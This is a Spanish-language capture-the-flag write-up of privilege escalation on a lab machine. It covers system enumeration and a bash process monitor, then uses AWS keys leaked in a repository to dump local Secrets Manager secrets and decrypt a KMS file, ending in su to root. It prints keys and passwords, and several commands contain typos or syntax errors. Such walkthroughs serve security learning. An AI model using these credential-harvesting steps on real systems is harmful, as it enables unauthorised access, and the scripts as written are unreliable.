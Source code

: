 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
ls
id
sudo -l
pwd
find \-type f 2>/dev/null
```

buscamos para puertos abiertos

```bash
netstat -nat
```

aqui vamos a pasar por `/proc/net/tcp` y passar de **hex** a **decimal** con bash.

1. Copiamos el `/proc/net/tcp` en un fichero data_hex

    ```bash
    cat /proc/net/tcp
    ```

1. recuperamos los puertos

    ```bash
    cat data_hex | awk '{print $2}'
    cat data_hex | awk '{print $2}' | tr ':' ' '
    cat data_hex | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'
    cat data_hex | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}' | sort -u
    ```

1. Passamos del hexadecimal al decimal con bash

    ```bash
    for hex_port in $(cat data_hex | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}' | sort -u); do echo "obase=10; ibase=16; $hex_port" | bc; done
    ```

Continuamos la enumeracion

```bash
cd /
find \-perm -4000 2>/dev/null
ls -la /var
ls -la /opt
ls -la /opt/containerd
ps -faux
ifconfig

cat /home/bot/bot.py
```
El `ps -faux` nos muestra un commando python a un fichero que no existe en esta maquina. Pensamos en un docker o algo parecido.
Aqui no vemos nada interessante. Vamos a crearnos un procmon en bash

```bash
cd /dev/shm
touch procmon.sh
chmod +x procmon.sh
vi procmon.sh
```

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command|kworker"
    old_process=$new_process
done
```

Aqui tampoco vemos nada interessante. Miramos si tenemos binarios installados que corresponden a lo que hemos encontrado en el **GITEA**.

```bash
which aws
```

Vemos que tenemos **aws** installado y en un commit del repository `Log_Manager` podemos ver credenciales con un secret contra un endpoint en el puerto 4566.

```bash
netstat -nat | grep "4566"

aws help
aws secrectsmanager help
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui vemos que tenemos primero que configurar el commando aws.

```bash
aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui ya podemos listar los secretos y recuperamos la data interesante

```bash
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"'
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"'
```

Ahora que tenemos un listado de **ARN** podemos usar del commando `get-secret-value` para cada **ARN**.

```bash
#!/bin/bash

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"' while read aws_secret_key; do
    echo -e "\n[+] Mostrando secreto con el secret_key $aws_secret_key:\n"
    aws --endpoint-url="http://127.0.0.1:4566" secretsmanager get-secret-value --secret-id "$aws_secret_key"
done
```

Aqui podemos ver credenciales y como el usuario **david** esta en el systema intentamos con la credencial encontrada

```bash
su david
Password: EALB=bcC=`a7f2#k
```

Ya hemos podido pivotar al usuario **david** y vemos que en su directorio tiene un proyecto con un fichero encodeado. Vamos a intentar decodearlo con
**aws**.

```bash
cd Projects/Prod_Deployment
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys


aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" kms list-keys
```

Si miramos la funccionalidad de decrypt del aws, vemos que necessitamos una key_id para desencryptar un fichero.

```bash
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid"
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}'
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"'
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"' | tr -d ','
```

Vamos a crear otro script para desencryptar el fichero.

```bash
touch decryptor.sh
chmod +x !$
nano decryptor.sh


#!/bin/bash

declare -a algorithms=(SYMMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256)


for algo in "${algorithms[@]}"; do
    aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"' | tr -d ',' | while read key_id; do
        echo -e "\n[+] Probando con el algoritmo $algo la key $key_id:\n"
        aws --endopoint="http://127.0.0.1:4566 kms decrypt --encryption-algorithm $algo --ciphertext-blob fileb:///home/david/Projects/Prod_Deployement/servers.enc --key-id "$key_id"
    done
done
```

Lanzamos el script y vemos el resultado que es un plaintext en base64. Lo desencryptamos en un fichero, y con el commando `file` vemos que el fichero es un gzip.

```bash
echo "..." | base64 -d > file
file file
mv file file.gz
which gunzip
gunzip file.gz
cat file
```

Aqui vemos una contraseña y probamos si es la contraseña del usuario root

```bash
su root
Password: _uezduQ!EY5AHfe2
```

Somos root y podemos ver la flag

